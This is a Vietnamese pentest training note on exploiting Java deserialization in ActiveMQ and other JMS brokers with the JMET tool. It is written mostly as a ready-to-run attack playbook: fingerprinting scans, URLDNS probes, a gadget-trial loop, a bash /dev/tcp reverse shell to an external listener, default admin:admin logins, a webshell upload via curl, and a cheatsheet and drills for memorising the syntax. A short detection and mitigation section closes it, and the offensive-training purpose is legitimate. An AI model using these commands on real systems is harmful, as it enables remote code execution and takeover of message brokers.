

> **Prerequisites**: [[09-java-gadget-chains-ysoserial|09. Gadget Chains & ysoserial]]
> **Objectives**:
> - Hiểu JMS ObjectMessage là deserialization sink theo design
> - Sử dụng JMET để exploit ActiveMQ và các JMS brokers khác
> - Phân biệt non-HTTP attack surface trong internal pentests
> - Confirm RCE qua DNS callback trước khi escalate

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Message broker expose TCP port (ActiveMQ: 61616, HornetQ: 5445, WebSphere MQ: 1414)
> - Broker accept unauthenticated connections hoặc có weak credentials
> - Gadget library trong broker's classpath (ActiveMQ bundle sẵn commons-collections)
> - Consumer application gọi `ObjectMessage.getObject()` — hoặc attacker inject vào queue attacker-controlled

> [!tip] JMS là non-HTTP attack surface thường bị bỏ qua
> Trong khi web application được test kỹ, message queues trong internal network thường bị bỏ sót hoàn toàn. ActiveMQ port 61616 thường mở rộng rãi trong internal networks mà không có authentication.

---

## Cơ chế tấn công

### JMS ObjectMessage — Tại Sao Là Sink

![[assets/img-14-jms-architecture.png]]
*Hình 1: JMS producer/consumer architecture với ObjectMessage deserialization point. Attacker connect trực tiếp đến broker port và inject malicious ObjectMessage.*

Java Message Service (JMS) cung cấp nhiều loại message:
- `TextMessage` — plain text, safe
- `BytesMessage` — raw bytes, safe
- `MapMessage` — key-value map, safe
- **`ObjectMessage`** — Java serialized object → **DANGEROUS**

Khi consumer gọi `ObjectMessage.getObject()`, broker deserialize nội dung → nếu attacker control message content, đây là RCE.

**Điểm quan trọng**: Attacker không cần compromise producer application. Attacker connect trực tiếp đến broker như một "producer" và gửi malicious ObjectMessage vào queue.

### JMET — Java Message Exploitation Tool

JMET (BlackHat USA 2016 — Code White GmbH) là tool exploit JMS deserialization. Hỗ trợ 12+ implementations:

```
ActiveMQ, Artemis, WebSphereMQ, Qpid10, Qpid09, HornetQ, SwiftMQ, RabbitMQ, OpenMQ...
```

JMET tích hợp ysoserial để generate gadget chain payloads, sau đó deliver qua JMS protocol thay vì HTTP.

---

## Quy trình tấn công

**Môi trường giả định**: ActiveMQ broker tại `192.168.1.200:61616`, unauthenticated.

### Bước 1 — Discover và Fingerprint

```bash
# Nmap scan
nmap -sV -p 61616,61617,61618,1883,5672 192.168.1.200

# ActiveMQ web console (nếu có)
curl -s http://192.168.1.200:8161/admin/ | grep -i "activemq\|version"
# Default creds: admin:admin

# Manual banner grab — ActiveMQ trả về XML handshake
nc 192.168.1.200 61616
# Expected: WIREFORMAT,v=<N>... hoặc immediate close
```

> **Expected output**: `61616/tcp open  activemq  Apache ActiveMQ 5.x.x` → confirmed broker.

### Bước 2 — Setup JMET

```bash
# Download JMET
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar

# Verify JMET runs
java -jar jmet-0.1.0-all.jar 2>&1 | head -10
# Expected: usage message listing flags
```

### Bước 3 — URLDNS Probe (Confirm Deserialization)

```bash
# Test với URLDNS gadget — works on any JDK, any classpath
java -jar jmet-0.1.0-all.jar \
  -Q testqueue \
  -I ActiveMQ \
  -Y URLDNS \
  192.168.1.200 61616 \
  -- "http://activemq-test.COLLAB.oastify.com"
```

> **Expected output**: Burp Collaborator DNS hit → ActiveMQ deserializes ObjectMessage → URLDNS executes → confirmed.

### Bước 4 — Trial Gadget Chains (Sleep Test)

```bash
# CommonsCollections6 — ActiveMQ thường bundle CC 3.x
for GADGET in CommonsCollections6 CommonsCollections2 CommonsBeanutils1 Spring1; do
  echo "[*] Testing gadget: $GADGET"
  START=$(date +%s)
  java -jar jmet-0.1.0-all.jar \
    -Q testqueue \
    -I ActiveMQ \
    -Y $GADGET \
    192.168.1.200 61616 \
    -- "sleep 5"
  END=$(date +%s)
  ELAPSED=$((END-START))
  echo "Elapsed: ${ELAPSED}s"
  [ $ELAPSED -ge 5 ] && echo "[!] HIT: $GADGET works!" && break
done
```

> **Expected output**: Khi đúng gadget, shell trong broker process sleep 5 giây → timeout delay visible.

### Bước 5 — Reverse Shell

```bash
nc -lvnp 4444 &

java -jar jmet-0.1.0-all.jar \
  -Q testqueue \
  -I ActiveMQ \
  -Y CommonsCollections6 \
  192.168.1.200 61616 \
  -- "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"
```

> **Expected output**: Reverse shell nhận → `id` → `uid=1000(activemq)` hoặc `root`.

### Bước 6 — Target Topic (Broadcast)

```bash
# Nếu dùng -T (topic) thay vì -Q (queue) → broadcast đến tất cả subscribers
java -jar jmet-0.1.0-all.jar \
  -T broadcast.topic \
  -I ActiveMQ \
  -Y CommonsCollections6 \
  192.168.1.200 61616 \
  -- "touch /tmp/pwned"
```

### Bước 7 — Authenticated Access (nếu có credentials)

```bash
# Nếu broker require auth
java -jar jmet-0.1.0-all.jar \
  -Q testqueue \
  -I ActiveMQ \
  -Y CommonsCollections6 \
  -u admin \
  -pw admin \
  192.168.1.200 61616 \
  -- "id > /tmp/out"
```

---

## Biến thể & Bypass

### Thử Các Broker Implementations Khác

```bash
# JMET -I flag cho broker type:
for BROKER in ActiveMQ Artemis HornetQ; do
  java -jar jmet.jar -Q q -I $BROKER -Y URLDNS 192.168.1.200 61616 -- "http://collab"
done
```

### ActiveMQ Web Console RCE (Alternative)

```bash
# ActiveMQ Web Console trên 8161 — nếu có admin access
# Exploit via fileserver upload hoặc scheduled script
curl -u admin:admin -s \
  http://192.168.1.200:8161/fileserver/exploit.jsp \
  --upload-file webshell.jsp

# Hoặc CVE-2023-46604 (RCE không cần deser — HTTP PUT)
```

### Non-Standard Ports

```bash
# Scan rộng hơn cho JMS ports
nmap -sV -p 1099,1883,5445,5672,61616,61617 --open 192.168.1.0/24
# 61617 = ActiveMQ SSL
# 5672  = AMQP (RabbitMQ/Artemis)
# 1883  = MQTT
```

---

## Cây quyết định



---

## Command Cheatsheet

**Discovery**

```bash
# Nmap
nmap -sV -p 61616,8161 TARGET

# Web console check
curl -u admin:admin http://TARGET:8161/admin/

# Banner grab
echo "" | nc -w3 TARGET 61616 | strings | head -5
```

**JMET Exploitation**

```bash
# URLDNS probe (confirm deserialization)
java -jar jmet.jar -Q q -I ActiveMQ -Y URLDNS TARGET 61616 -- "http://collab"

# Sleep test (confirm gadget)
java -jar jmet.jar -Q q -I ActiveMQ -Y CommonsCollections6 TARGET 61616 -- "sleep 5"

# Reverse shell
java -jar jmet.jar -Q q -I ActiveMQ -Y CommonsCollections6 TARGET 61616 \
  -- "bash -c 'bash -i >& /dev/tcp/LHOST/PORT 0>&1'"

# With authentication
java -jar jmet.jar -Q q -I ActiveMQ -Y CC6 -u admin -pw admin TARGET 61616 -- "cmd"

# Topic broadcast
java -jar jmet.jar -T topic.name -I ActiveMQ -Y CC6 TARGET 61616 -- "cmd"
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày.

**Drill 1 — Discover và fingerprint JMS**
Mục tiêu: nhận diện ActiveMQ trong nmap output ngay lập tức.

```bash
nmap -sV -p 61616 TARGET
# Look for: "activemq" in service name
```

**Drill 2 — JMET URLDNS + sleep test**
Mục tiêu: thuộc lòng JMET syntax với các flags quan trọng.

```bash
# URLDNS
java -jar jmet.jar -Q q -I ActiveMQ -Y URLDNS TARGET 61616 -- "http://collab"
# Sleep
java -jar jmet.jar -Q q -I ActiveMQ -Y CommonsCollections6 TARGET 61616 -- "sleep 5"
```

Luyện cho đến khi: nhớ thứ tự `-Q`, `-I`, `-Y`, `TARGET PORT`, `-- "cmd"` mà không cần tra cứu.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Network**: Inbound connections đến TCP 61616 từ IPs ngoài expected producers/consumers
> **Network**: Outbound DNS/HTTP từ broker process sau khi nhận ObjectMessage từ unknown source
> **Process**: Unexpected subprocess spawn từ `activemq` JVM process
> **Log**: `ClassNotFoundException` cho gadget classes trong broker logs → attacker đang trial chains

> [!note] Mitigation
> - Enable authentication trên ActiveMQ broker (tắt anonymous access)
> - Firewall port 61616 — chỉ allow từ known application servers
> - Disable `ObjectMessage` support nếu không cần: `ClassInfo` filter trong ActiveMQ config
> - Update ActiveMQ → phiên bản mới hơn với better defaults
> - Deploy SerialKiller agent trong broker JVM

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| Custom | **ActiveMQ Docker** | `docker run -p 61616:61616 rmohr/activemq:5.9.0` |
| VulnHub | **Stapler** | Includes message queue components |
| HTB | **Search** | Enterprise internal services similar context |
| BlackHat | **JMET demo lab** | Original research demo environment |
